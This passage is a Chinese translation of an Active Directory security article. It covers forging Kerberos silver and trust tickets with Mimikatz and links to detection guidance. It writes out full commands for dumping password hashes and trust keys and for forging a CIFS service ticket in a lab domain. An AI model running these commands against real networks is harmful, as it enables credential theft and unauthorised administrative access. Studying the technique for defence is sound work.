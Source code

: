 *   Domain Users 组的 SID: S-1-5-21-513
*   Domain Admins 组的 SID: S-1-5-21-512
*   Schema Admins 组的 SID: S-1-5-21-518
*   Enterprise Admins 组的 SID: S-1-5-21-519 (只有在林的根域中创建了伪造的票证并使用 /sids 参数指定 AD 林中管理员权限的情况下才会有效)
*   Group Policy Creator Owners 组的 SID: S-1-5-21-520

### 使用 Mimikatz 创建白银票证（Silver Ticket）示例

下面是为**adsmswin2k8r2.lab.adsecurity.org**上的 CIFS 服务创建一个白银票证的 Mimikatz 命令。为了确保白银票证能够成功创建，需要先找到**adsmswin2k8r2.lab.adsecurity.org**中的 AD 计算机帐户的密码哈希，你可以从一个 AD 域中导出，也可以在本地系统中直接运行 Mimikatz (Mimikatz “privilege::debug” “sekurlsa::logonpasswords” exit)。NTLM 密码哈希被用于 /rc4 参数，服务 SPN 类型同样需要使用 /service 参数指定。最后，目标计算机的完全合格域名名称（FQDN）需要在 /target 参数中指定。不要忘记在 /sid 参数中指定域的 SID 。

**mimikatz “kerberos::golden /admin:LukeSkywalker /id:1106 /domain:lab.adsecurity.org /sid:S-1-5-21-1473643419-774954089-2222329127 /target:adsmswin2k8r2.lab.adsecurity.org /rc4:d7e2b80507ea074ad59f152a1ba20458 /service:cifs /ptt” exit**

![p9](http://drops.javaweb.org/uploads/images/8ce2bdb92fa3469855c30aebed180b9e818749f0.jpg)

**更新于 1/5/2016：**

在 2015 年一月初，我分享过检测伪造的 Kerberos 票证并且随后在 BSides Charm 2015 中提到过此信息。不久后，Mimikatz 进行了更新，使用了一个设置为静态值的 domain 字段，此字段通常包含字符串“eo.oe”。[更新于 1/5/2016 的 Mimikatz](https://github.com/gentilkiwi/mimikatz)中，伪造的 Kerberos 票证将不再包含一个不规则的域，因为[Kerberos 票证的域组件中放置了 NetBIOS 域名称](https://github.com/gentilkiwi/mimikatz/commit/fbb32cdcfa688892ab91b98044c453414193bb74#diff-60c3d6f46631121e0d6f97c2a2e143c9R602)。

下面是使用 diff 列出了 Mimikatz 代码的不同之处：

![p10](http://drops.javaweb.org/uploads/images/2e05f109efa8c4da79939d1af36474c35900b5c7.jpg)

更多关于检测伪造的 Kerberos 票证（黄金票证，白银票证，等等）的不同之处，请看[这里](https://adsecurity.org/?p=1515#DetectingForgedKerberosTickets)。

### 信任票证（Trust Ticket）

一旦 Active Directory 的信任密码哈希确定后[(Mimikatz “privilege::debug” “lsadump::trust /patch” exit)](https://adsecurity.org/?page_id=1821#LSADUMP)，就可以生成一个信任票证（Trust Ticket）。关于信任票证（Trust Ticket）背后的更多细节，请看[这里](https://adsecurity.org/?p=1588)

### 伪造内部的 AD 林信任票证

在这个例子中，需要利用两个额外的工具，由 Benjamin Delpy 编写的 AskTGS 和 Kirbikator。

#### 第一步 导出信任密码（或信任密钥）

当前使用的 Mimikatz 版本可以提取出信任密钥（或密码）。

[(Mimikatz “privilege::debug” “lsadump::trust /patch” exit)](https://adsecurity.org/?page_id=1821#LSADUMP)

![p11](http://drops.javaweb.org/uploads/images/02d45649a4352be5aa0149b69112644ed4c17d13.jpg)

#### 第二步 使用 Mimikatz 创建伪造的信任票证（跨域 TGT）

伪造信任票证说明了票证的持有人是 AD 林中的企业管理员（Enterprise Admin）。这使得从一个子域到父域的访问会得到完全的管理权限。请注意，此帐户没有存在于任何地方，因为它有效的使用黄金票证跨越了信任域。  
创建一个信任票证的 Mimikatz 命令为 “kerberos::golden”
